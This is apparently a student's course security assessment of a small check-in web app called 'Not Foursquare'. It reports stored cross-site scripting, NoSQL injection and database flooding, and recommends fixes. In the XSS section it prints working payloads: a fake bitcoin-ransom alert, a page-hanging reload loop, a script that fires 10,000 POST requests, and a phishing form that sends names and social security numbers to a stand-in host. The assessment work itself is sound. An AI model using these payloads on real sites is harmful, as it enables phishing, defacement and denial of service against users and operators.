


Comp 20 Assignment 4: Security and Privacy Assessment of a Web Application
Created By Chris Meyerhoff
Introduction
The product that is being tested here is "Not Foursquare." It is basically a tool where users can check in and log their coordinates, and accessing the main page yields all of the people who have checked in and their coordinates. The users login name and coordinates are stored in a connected database.
It is my duty to examine the security of this web service. It is unclear whether the site was intended to allow only certain users to log their coordinates or to allow everyone to log their coordinates, but the security analysis will examine both use cases.
Methodology
The methodology used was primarily "white box" testing, where the source code was examined for vulnerabilities before attempting to test them on the actual service. This was done because when starting I did not know where to start or how to go about "black box" testing. The tools eventually used to test the security of the web application were curl, Postman, Google Chrome, and a bash shell script.
Abstract of Findings
The web application has numerous security issues that could affect stability of the service, user experience, user's browser security, and potentially data security. The main offenders are as follows:
- Malicious user input is allowed and is sent back to every clients browser upon a refresh, which can lead to:
- Altering the content of the webpage
- Phishing attempts with phony forms
- Redirecting the user to another website
- Making the website inaccessible or unusable
- Crashing the user's browser
- Accessing cookies containing personal data if they are ever implemented
- All of the data in the databse collection is accessable in an easily usable form via an injection attack at one of the separate
- The database can be flooded and potentially have its resources consumed by repeated logging
Issues Found
Cross Site Scripting (XSS)
Cross site scripting is possible as user input is not validated sufficiently. Malicious input can be posted and it is then later on echoed back to client. It is of fairly high severity, as it can mangle the webpage, make it inoperable, or attempt to manipulate the end user. This vulnerability exists in the main Javscript file at the location in the picture below. As one can see, the login variable is taken directly from user input, and is only checked to make sure it is not undefined. This becomes a problem when the script echoes back the list of logins later on, as someone can insert whatever javascript or html they want in this field, and it will later execute on the clients browser.

As an example, posting to the website at the /sendLocation route with: <img src="https://pics.onsizzle.com/hacker-voice-im-in-9461453.png" alt="hacker doggo" width=500 height=384> in the login field yielded the picture below being placed on the webpage.

More sinister examples include posting things such as:
- <script>alert("Hello! Your data is unsecure. Please send a donation in bitcoin to the water foundation at the address 1HesYJSP1QqcyPEjnQ9vzBL1wujruNGe7R to make your data secure again!") </script>

- <script>while(1){location.reload(true)}</script> This makes the page hang and never load:

- Picture same as the above example, but many POSTS are made. Could be made infinite loop, and every person trying to access page would be posting a ton, which becomes sort of a psuedo DDOS.
<script>for (i = 0; i < 10000; i++) { var http = new XMLHttpRequest();
var url = "http://localhost:3000/sendLocation";
var params = "login=crashtestdummies&lat=12&lng=12";
http.open("POST", url, true);
http.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
http.onreadystatechange = function() {
if(http.readyState == 4 && http.status == 200) {
console.log("readystatechange!"); }}
http.send(params);
console.log("request sent!")}</script>
- <form action="http://phishingserver.net" method="post"> <label for="name">Please enter your name: </label><input name="name" id="name" value="JohnDoe7"><br><label for="SSN"> Please enter your social security number: </label><input name="SSN" value="0000000"> <br> <button>Continue Logging In!</button></form>

- Redirects can be done in various ways, which can happen on page load etc. This mimics another security issue of Unvalidated Redirects/Forwards.
The other fields are more thoroughly checked for validity, and they appear to be secure. There are a few paths to resolve the issue with the insecure field that is the echoed back.
If the application operator wants the ideal solution that limits posting to only authorized users rather than everyone, they could add a separate user authorization process where users register a login that is thoroughly validated (could also use a password or api key instead of login). This login would be stored in a separate database (or hashes of the login/password combos could be stored etc), which could then be referenced every time someone tries to post to the server at the /sendLocation path. This approach would have the benefit that the headers could be set selectively (ie Access-Control-Allow-Origin is set differently for each request if you have a valid login rather than using the wildcard '*').
If the operator wants everyone to have the ability to post their locations, then at a bare minimum, the login key value pair needs to be validated more thoroughly, via escaping characters, or limiting the value of login to alphanumeric characters only.
Injection Vulnerability - All data accessible
This issue is that there is the ability to perform injections on the noSQL database underlying the Not Foursquare platform. In this use case it is only of moderate severity, as I was only able to exposes all of the data in the collection on the database, which was already public, but I believe someone more skilled could execute other javascript commands on the databse. I found this by looking for places where something was done with user input with little or no validation. The problem can be examined in the picture below. As one can see, user input is used more or less unfiltered in performing a query on the database via collection.find(). Changing the loginEntry variable by modifying the query string on the GET request allows the user to cause unintended behavior.

This path is normally intended to allow users to search for specific things in the database. However, by searching for results that are not equal to something that is not in the database, we gain access to everything in the collection (see picture below). This would yield problems if there were sensitive data in the collection, or if only certain information in the collection were public, as everything in the collection would be exposed. While I could not get any other exploits to work here such as searching in the database using an infinite loop, I believe someone more skilled could figure it out, and it would thus make this a more severe vulnerability.

Depending on how much power the application owner wants to give to their users for searching checkins, this can be resolved by restricting acceptable user input (eliminating certain characters such as $,[], etc or certain operators like $where) such that they could only search for certain alphanumeric based login names. Another solution would be to escape the needed characters before sending the query to the database, thus elminating the ability of the javascript or other attempts to produce unintended effects to run on the database, and merely searching for the whole expression the list of login names.
Structural issues/Attacking the database
This issue, is primarily structural/coding practices, and it goes two ways. One, because anyone has the ability to post to the site at /sendLocation (see the same code snippet in the XSS example), posting in a loop on the command line is allowed. Also, these posts can have arbitrary length and thus be large. This means that the server could be flooded with posts, and potentially run out of resources (both processing capacity and storage space). The other problem goes on the serving data to the client side, rather than sending data to the server. When you post anything, from what I can tell, the server responds with the entire contents of the collection in JSON. This consumes roughly the equivalent bandwidth as performing a GET request to the main page, however with a get request, you are not increasing the size of data stored on the databse. This property lends itself to exploitation, and I would rate it as moderately severe, as it could fill up the database, and consume most of the server processing power resulting in a DDOS if combined with XSS as an example above suggested (the one where the client repeatedly posts). The shell script I used to repeatedly post in a loop was as follows:

While the counter is limited to 100 here, it could be set to an unreasonably high number that would take a very long time to complete, or be changed to an infinite while loop. Likewise, I only post a small string of characters "crashtestdummies" to the database, but I could post a larger amount of JSON, or a large text/json file. This would increase the speed at which space is consumed on the database. One of the more sinister implementations I can think of would involve posting to the server from a file, piping it's response into the file you posted from, and doing that over and over. This would post the entire contents of the collection back to database every iteration, and increase the amount stored on the databse with squared behavior. This would not only eventually fill up the server, but it would also at some point stress the bandwidth of the server.
Combining some of the notions here with cross site scripting yields something like one of the examples given above in the XSS section, where each client is posting in a loop. All of the clients working together would effectively create a DDOS attack if powerful enough. The proof that such code can be inserted via cross site scripting can be seen in the picture below.

Even after changing the number of iterations to 10,000, it successfully runs without crashing the webpage (ie the script continues to run, and the server continues to have to deal with all the requests). What that looks like can be seen in the photo below. This certainly consumes a lot of my system resources, so I can only imagine what it would be like for the server if every visitor to the webpage made thousands or tens of thousands of requests repeatedly or even as long as their browser is open! Not only could it consume resources, bandwidth, and memory, but it could even potentially cause the server to overheat/shutdown.

This issue could be partially alleviated by not responding to posts with the contents of the entire database. This would lower the amount of data transfer needed for every request, and would prevent the attack where the entire content of the database is posted back to the server in a loop. To fully resolve this problem, the number of requests/posts allowed per user or IP could be limited or only allowed every 10 seconds etc.
Conclusion
While there are a number of vulnerabilities to the web service, they are relatively simple and cheap to fix. The consequences of not fixing them, however, are risks to stability of the service, potential damage to the server hardware if hit by a large DDOS attack (will always remain, but harder to do if the number of requests are limited), and user security (phishing attacks possible etc). It is thus my reccommendation that the problems above be addressed as swiftly as possible.